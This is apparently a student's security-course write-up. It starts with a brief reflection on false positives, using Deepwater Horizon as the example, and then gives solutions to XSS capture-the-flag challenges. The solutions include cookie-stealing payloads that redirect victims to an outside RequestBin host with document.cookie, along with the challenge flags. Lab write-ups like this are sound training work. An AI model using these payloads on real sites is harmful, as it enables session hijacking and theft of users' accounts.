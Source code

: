 A way of mediating the severities of these errors could involve a manual human override to the system for dealing with false positives, although this could mean that the person in charge could also dismiss a warning leading to catastrophic damage. Having someone monitor the sensors manually and ensuring that they are working as intended could also be effective for dealing wtih false negatives. For the Deepwater Horizon oil spill incident, although such a system was not implemented at the time, early warnings of broken equipment such as the broken cement seal at the bottom of the well and unusual pressure test readings were ignored, where workers treated these signs as false positives (Type I errors), leading to a true negative outcome (destruction).

<img src="https://i.guim.co.uk/img/static/sys-images/Guardian/About/General/2010/5/17/1274118899455/Deepwater-Horizon-Oil-Rig-006.jpg?width=300&quality=45&auto=format&fit=max&dpr=2&s=6e48076fa41b73ede783a14a99419073" alt="Gulf oil disaster: BP admits missing warning signs hours before blast | Deepwater  Horizon oil spill | The Guardian" style="zoom:50%;" />

# Extension

## XSS Wargame

While trying to solve XSS1, I found a probably unintended vulnerability in this challenge which allows you to retrieve the flag for each of the four XSS activities using a similar url. I noticed that a user's blogs can be accessed with the link `http://xss1.comp6841.xyz/blogs?u={USERNAME}`and just tried sending a complaint with a malicious injection where {USERNAME} was. Turns out I could simply change the `xss1` part of the url for each corresponding activity to solve it. Something along the lines of:

`http://xss1.comp6841.xyz/blogs?u=<script>document.location="https:/eno1i2k0dctxq.x.pipedream.net/?q="%2Bdocument.cookie</script>test`

### XSS1

Although I initially solved this using the method described above, I went back to solve it "properly". Noticing that blog post titles were XSS vulnerable but size-limited, although body content was said to be DOMPurified, I was still able to embed a redirect using `<script>document.location="https:/eno1i2k0dctxq.x.pipedream.net/?q="+document.cookie</script>` in the content. Sending this to another user (complaint) allows me to extract their cookie when loading the page, hence extracting the flag.

COMP6841{Bu7_d0_u_h4v3_a_Fl4G}

### XSS2

In this activity, I realised that there was an additional search page which was vulnerable to XSS when trying to inject into the search query. From there, I constructed a complaint with a malicious query. I sent the complaint link as something like `http://xss2.comp6841.xyz/search?q=<script>document.location="https:/eno1i2k0dctxq.x.pipedream.net/?q="%2Bdocument.cookie</script>test`. Injecting the script into the search query client-side redirects them to my RequestBin site, from which I can steal their cookie from the query. 

COMP6841{YoUr_r3flec7ion_cAn_b3_d4nger0us}

### XSS3

Although I initially solved this using the vulnerability described above, I once again went back to solve it "properly", noticing that this activity was very similar to XSS1, except that blog post content was just an image with user-input URL (src attribute). From the webinar, I figured this would be something along the lines of a `<img src="" onerror="javascript:alert(1)">`, so I injected  `" onerror="javascript:document.location='https:/eno1i2k0dctxq.x.pipedream.net/?q='+document.cookie"`which redirects the user upon failing to load the image. Providing a link to a blogs page containing this post allowed me to extract the flag. 
